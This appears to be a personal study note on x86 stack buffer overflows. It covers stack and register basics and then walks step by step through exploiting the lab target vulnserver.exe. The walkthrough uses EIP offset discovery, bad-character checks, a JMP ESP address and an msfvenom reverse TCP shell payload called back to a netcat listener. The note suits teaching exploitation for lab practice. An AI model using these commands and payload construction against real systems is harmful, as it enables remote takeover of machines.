 # basics
Stack overview:
![Buffer Overflow](/img/x86Memory.png)

## Stack
* When a tread is running it executes code form the program image or the DDLs.
* The thread requires short term data areas for functions, variable, program control information => stack.
* Each threat has its own stack
* LIFO (push/pop)

## Function return mechanics
When code within a thread calls a function is must know on which address to return to once the function is completed

Example of return mechanics (stored in a section of stack called stack frame):
| Thread stack frame example|
| ------------- |
| Function A return address: 0x00401024 |
| Parameter 1 for Function A: 0x000000040|
| Parameter 2 for Function A: 0x000001000|

# CPU registers
Small high speed cpu storage locations
* Different registers exists from 32-bit to 8 bits

Most important registers (32-bit):
* EAX: for arithmetical and logic instructions
* EBX: base pointer for memory addresses
* ECX: Loop, shift and rotation counter
* EDX: I/O Port addressing, division, multiplication
* ESI: Pointer of data and source 
* EDi: Pointer of data and desination in string copy operations

* ESP stack pointer (keeps track of most recent reference locations by stack)
* EBP base pointer (stores a pointer to the top of the sack when a funciton is called)
* EIP always points to the next code instrucation to be executed

# sample vulnerable code (C)
//what happens when buffer.length greater than 64? => buffer overflow; overflowing its reserved boundaries
``char buffer[64]; strcpy(buffer, argv[1]);``


# windows
## immunity debugger 
* Open file exe
* Then you can start debugging

## example vulnserver.exe (TCP server)
with nc you can setup a connection to vulnserver to check it

* but kill nc it and run the script ``bufferOverflowHelper.py`` and will hopefully result in something like ``Fuzzing crashed at 22105 bytes``
* Also we see in the immunity debugger that EIP has been overriding and that it is failing

### detect location of EIP

* to detect location use: ``/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 24105``
* will generate a text and pass this into the ``bufferOverflowHelper.py``
* in imm. debugger save the EIP hex, f.i: ``386F4337``
* again with metasploit detect in which location the value is ``/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 24105 -q 386F4337``
* This will generate the location: ``Exact match at offset 2003`` which means that EIP starts at *2003*

### override EIP
* in your python file substitute buffer where EIP starts (in our case *2003*) with ``buffer = "A" * 2003 + "B" * 4``
* when running the script we will set that EIP is ``42424242`` => BBBB
* Search for badchars in Google, leads to: https://github.com/mrinalpande/scripts/blob/master/python/badchars
* copy those bad chars in your python script and delete 00 && X70 put it in ``badchars`` variable
* buffer variable should look like ``buffer = "A" * 2003 + "B" * 4 + badchars`` 

### check hexdumb of ESP for bad chars
*We have to take the missing chars in the hex dump (Bad chars) out of the shell code for later!*
* check hexdumb of ESP (mark ESP Hex => right click => follow in dump)
(Hexdump) [img/bufferOverflowHexDumpESP.png]
* Check fump for missing chars, f.e.: : ``11 12 B0 14`` => 13 is missing and would be a bad char

### looking for DLL which has no protection (with Monamodules)
Some DLLs have protection against buffer overflow so we need to finds DLLs which do not have it.
* Download monamodule from github: (Mona)[https://github.com/corelan/mona]
* Paste mona.py file under: ``D:\Immunity Debugger\PyCommands``
* In imm. debugger writh (text field in the lower left corner): ``!mona modules`` and hit enter
* We then see protection settings for certain dlls (check for everything false and attached to the program), in our example: ``essfunc.dll``

### locate JMP commands
Pointer will jump to our malicuous shell code
* type ``locate nasm_shell``
* Call then the path: /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb 
* Type ``JMP ESP`` and it will generate the hashcode equivalend of it: ``FFE4``
* In immunity debugger type in the lower left corner: ``!mona find -s "\xff\xe4" -m essfunc.dll`` => remember: \x *ff* \x *e4*
* Generates: ``\xff\xe4 & 0x625011af``
* In our script we write in reverse order ``buffer = "A" * 2003 + "\xaf\x11\x50\x62"``
* In imm. debugger debug (click on most right symbol, in line with the play button) and enter: ``625011af``
* We are overridding the EIP with our command, you will see the hash code 625011af

### gaining shell
Will generate some shell code for reverse shell
// -b including bad chars if we detected some
type with ip of the "acker": ``msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.9 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"``
* Copy this into our python file as overflow variable like: ``buffer = "A" * 2003 + "B" * 4 + "\xaf\x11\x50\x62" + overflow``
* Add naf space to variable (play a bit around with the size: "\x90" * 8) ``buffer = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 8 +  overflow``=> example bufferOverflowHelperFinal.py
* Start netcat on linux by listening on port 4444
* Run application in admin mode and execute script
* Reverse shell established
